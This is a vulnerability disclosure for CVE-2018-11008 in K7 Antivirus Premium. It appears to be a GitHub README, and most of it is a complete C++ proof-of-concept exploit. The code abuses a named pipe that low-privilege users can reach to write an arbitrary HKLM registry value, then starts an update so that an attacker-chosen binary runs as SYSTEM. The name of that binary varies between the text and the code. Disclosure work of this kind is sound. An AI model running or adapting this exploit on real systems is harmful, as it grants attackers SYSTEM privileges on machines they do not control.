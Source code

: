 # CVE-2018-11008

# Product / Component Affected

* **Product**: *K7 Antivirus Premium 16.0.0.0* 
* **Component**: *K7TSMngr.exe 16.0.0.70*
  * SHA256: E6655EBC79644E7DB6FC36B2D98DE88A9635F47B3ADF1D834FD357D5EA3E15A6

# K7TSMngr.exe Pipe Handler Background
*See description in [CVE-2018-8724](../CVE-2018-8724/readme.md)*

# Details
Using the named pipe \\\\.\\pipe\\K7TSMngrService1 and the function code 0x1003E, the handler provies a way to set arbitary registry values using the RSET command. In the PoC, I use this to reset the  DirProductBase to a path of the user's choosing and then kick off an update. This will use the value in DirProductBase and look for K7TSMngr.exe and if found will launch it. From here is simple to LPE. Again this can be accessed from LOW and this makes it trivial to get a SYSTEM process launched. 

The PoC code concept is similar to CVE-2018-9332 where it simply modifies the DirProductBase and launches an update to illustrate the LPE.

# PoC Code
```C++
#include <Windows.h>
#include <stdio.h>

/////////////////////////////////////
// Common code to talk to the Pipe //
/////////////////////////////////////
typedef struct _unk1
{
	DWORD dwMagic;
	DWORD dwSomeMagic;
	DWORD dwInSize;
	DWORD field_c;
	DWORD dwFunctionId;
	DWORD dwInputDataSize;
	DWORD dwOutputDataSize;
} unk1;

HANDLE g_hPipe = INVALID_HANDLE_VALUE;

BOOL InitPipe()
{
	g_hPipe = CreateFileA("\\\\.\\pipe\\K7TSMngrService1", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (g_hPipe == INVALID_HANDLE_VALUE)
	{
		printf("CreateFileW Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	return TRUE;
}

BOOL CallPipeFunction(DWORD dwFunctionId, PBYTE pInput, DWORD dwInSize, PBYTE pOutput, DWORD dwOutSize)
{
	if (g_hPipe == INVALID_HANDLE_VALUE)
	{
		if (!InitPipe())
		{
			return FALSE;
		}
	}

	unk1 u1 = { 0 };
	u1.dwMagic = 0x4B375453;
	u1.dwSomeMagic = 0x1010;
	u1.dwInSize = 28;
	u1.dwFunctionId = dwFunctionId;
	u1.dwInputDataSize = dwInSize;

	DWORD dwBytesWritten = 0;
	if (!WriteFile(g_hPipe, &u1, sizeof(u1), &dwBytesWritten, NULL))
	{
		printf("WriteFile 1 Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	if (!WriteFile(g_hPipe, pInput, dwInSize, &dwBytesWritten, NULL))
	{
		printf("WriteFile 2 Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	return TRUE;
}

PVOID AllocPrecise(DWORD dwSize)
{
	DWORD dwPageSize = ((dwSize + 4096 - 1) / 4096) * 4096;
	PBYTE pOffset = (PBYTE)VirtualAlloc(NULL, dwPageSize, MEM_COMMIT, PAGE_READWRITE);

	if (dwSize % 0x1000 == 0)
	{
		return pOffset;
	}
	pOffset += 4096 - (dwSize % 4096);
	return pOffset;
}
/////////////////////////////
// End of common pipe code //
/////////////////////////////

//
// Vulnerability
//		Type:
//			Logical Flaw
//
//		Description:
//			Privileged registry modification via a SYSTEM process (effectively a broker)
void Vuln_LogicFlaw_RegSetValue(PSTR pszFolder)
{
	//
	// Craft the data for 'RSET' so we can modify an arbitary registry key. As before, we are just 
	// going to modify the DirProductBase and kick off an update as it demonstrates the point.
	// But from here YOU CAN WRITE TO MOST PLACES from a SYSTEM process which is bad
	//
	DWORD dwAction = 0x52534554;

	PVOID pData = AllocPrecise(0x1000);
	memcpy(pData, &dwAction, 4);
	PSTR pszReg = (PSTR)pData;
	pszReg += 4;
	PSTR pszTarget = "HKLM\\SOFTWARE\\K7 Computing\\K7TotalSecurity\\DirProductBase";
	strcat(pszReg, pszTarget);
	pszReg += strlen(pszTarget) + 1;

	PSTR pszValue = pszFolder;
	strcat(pszReg, pszValue);
	pszReg += strlen(pszValue) + 1;

	PDWORD pdwValue = (PDWORD)pszReg;
	*pdwValue = 1;
	pszReg += 4;

    //
    // This will set the appropiate registry key via the service
	//
    if (!CallPipeFunction(0x1003E, (PBYTE)pData, 0x1000, NULL, 0))
	{
		printf("Error: CallPipeFunction failed");
		return;
	}

	//
	// This kicks off an update process and will run any binary called K7TSHlpr.exe from the folder 
	// in DirProductBase. Therefore we have just created a process with SYSTEM integrity in Session
	// 0. Fab :)
	//
	InitPipe();
	BYTE data[0x10] = { 0 };
	if (!CallPipeFunction(0x10010, data, sizeof(data), NULL, 0))
	{
		printf("Error: Kicking off an update failed\r\n");
	}
}

int main(int argc, char** argv)
{
	if (argc != 2)
	{
		printf("Usage: <Folder>\r\n");
		printf("\tFolder: If K7TSHlr.exe is in this folder, then it will be launched as SYSTEM");
		return -1;
	}

	Vuln_LogicFlaw_RegSetValue(argv[1]);
}

```